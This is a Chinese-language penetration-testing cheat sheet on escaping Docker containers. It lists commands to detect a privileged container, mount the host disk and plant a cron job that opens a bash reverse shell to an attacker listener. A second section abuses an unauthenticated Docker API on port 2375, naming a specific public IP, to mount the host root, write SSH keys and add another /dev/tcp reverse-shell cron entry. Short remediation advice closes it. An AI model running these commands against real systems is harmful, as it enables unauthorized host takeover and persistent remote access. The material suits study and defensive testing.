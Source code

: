 
# docker 逃逸

启动时如果添加了 `--privileged` 参数，就会以特权模式启动docker，具备所有的Capabilities

```shell
# 1.1 方式1 查看是否在 docker中
ls -alh /.dockerenv
# 1.2 方式2
cat /proc/self/status|grep CapEff
## CapEff: 0000003fffffffff -- 以特权模式的

$ fdisk -l
# * Linux 表示是宿主机
## 如果通过特权模式启动容器，docker run --privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。
/dev/sda1  *        2048 16779263 16777216   8G 83 Linux


mkdir /test
mount /dev/sda1 /test

vi /test/tmp/test.sh
/bin/bash -i >& /dev/tcp/192.168.50.161/7777 0>&1 
#:wq 保存

# 攻击机
nc -lvp 7777

# 写入 crontab
sed -i '$a*/2 *    * * *    root  bash /tmp/test.sh ' /test/etc/crontab

# 或者写入authorized_keys 然后ssh
```

## docker 未授权

访问 http://your-ip:2375/version
```sh
docker -H tcp://47.92.7.138:2375 images
docker -H tcp://47.92.7.138:2375 ps -a
# 启动容器并将宿主机磁盘挂载到/mnt
docker -H tcp://47.92.7.138:2375 run -it -v /:/mnt --entrypoint /bin/bash ubuntu:18.04
cd /mnt/root/.ssh/
echo "ssh-rsa AAAAB3NzaC1yc2......." > authorized_keys

# 反弹shell -- 可通过 crontab -e 写入定时任务
* * * * * /bin/sh -i >& /dev/tcp/xxx.xxx.xxx.xxx./1111 0>&1
```


# 0x04 修复建议

1、对 2375 端口做网络访问控制，如 ACL 控制，或者访问规则；

2、修改 docker swarm 的认证方式，使用 TLS 认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS 这两篇文档，说的是配置好 TLS 后，Docker CLI 在发送命令到 docker daemon 之前，会首先发送它的证书，如果证书是由 daemon 信任的 CA 所签名的，才可以继续执行。

# Article

[一个未公开的容器逃逸方式](https://mp.weixin.qq.com/s/9aUQXGas-dY9i-zAWSCgMg)